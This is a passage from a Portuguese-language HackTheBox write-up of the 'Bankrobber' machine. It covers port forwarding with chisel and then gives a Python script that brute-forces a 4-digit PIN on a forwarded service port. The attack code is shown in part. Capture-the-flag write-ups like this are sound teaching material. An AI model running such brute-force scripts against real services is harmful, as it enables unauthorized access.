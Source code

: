 ![Server chisel](Assets/HTB-Windows-Insane-Bankrobber/server_chisel.png)

A partir de agora, a porta 910 da minha máquina local kali é igual á da máquina alvo.

Se usarmos um simples nc, dá para ver o que se lá passa:

![Local 910](Assets/HTB-Windows-Insane-Bankrobber/local910.png)

Está protegido por um PIN. Como está na nossa máquina, e sempre que tento um PIN, o programa apenas se fecha e está pronto para outra, vou fazer brute force nele!!

```python
import socket
import sys
from pwn import log


def tryPin(pin, p1):
    p1.status(f"Testando com PIN {pin.strip()}")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1",910))
    s.recv(4098)
    s.send(bytes(pin.encode()))
    msg = s.recv(4098).decode()

    if not "Access denied" in msg:
        p1.success(f"PIN encontrado. O PIN correcto é o: {pin.strip()}")
        sys.exit(0)


def getListOfPins():
    pins = []
    for first_num in range(0,10):
        for second_num in range(0,10):
            for third_num in range(0,10):
                for fourth_num in range(0,10):
                    pin = str(first_num) + str(second_num) + str(third_num) + str(fourth_num)
                    pins.append(pin + "\n")
    return pins


```